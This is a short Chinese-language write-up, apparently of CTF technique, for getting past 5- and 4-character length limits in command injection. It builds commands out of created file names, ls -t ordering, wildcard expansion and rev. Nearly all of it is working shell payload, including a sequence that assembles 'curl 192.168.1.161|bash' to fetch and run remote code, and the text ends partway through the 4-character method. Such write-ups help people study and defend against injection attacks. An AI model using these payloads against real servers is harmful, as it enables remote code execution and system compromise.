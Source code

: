 #### 1. 构造 ls -t>y

```sh
>ls\\ # "ls\"
ls>_ # 将 ls\写入_文件
>\ \\ # " \"
>-t\\ # "-t\"
>\>y # ">y"
ls>>_
```

#### 2. 分解命令，创建文件

```sh
# 构造 curl 192.168.1.161|bash
>bash
>\|\\
>61\\
>1\\
>1.\\
>68\\
>2.\\
>19\\
>\ \\
>rl\\
>cu\\
```

#### 3. 执行脚本

```sh
sh _
sh y
```

### 长度限制为 4 的绕过

#### 前置知识

- `ls>>_`: 不再适用
- `*`：相当于$(dir \*)，如果第一个文件名是命令的话就会执行命令，后面的文件名作为参数输入

#### 1. 构造 ls -t>g

```sh
>g\> # "g>"
>ht- # "ht-" 使文件名排列为"g> ht- sl"
>sl # "sl"
>dir
# ls: dir 'g>' ht- sl
*>v # 执行 dir 命令，将结果写入 v 文件
# cat v: g> ht- sl
>rev
*v>x # *v 相当于 rev 命令，将结果写入 x 文件
# cat x: ls -th >g
```
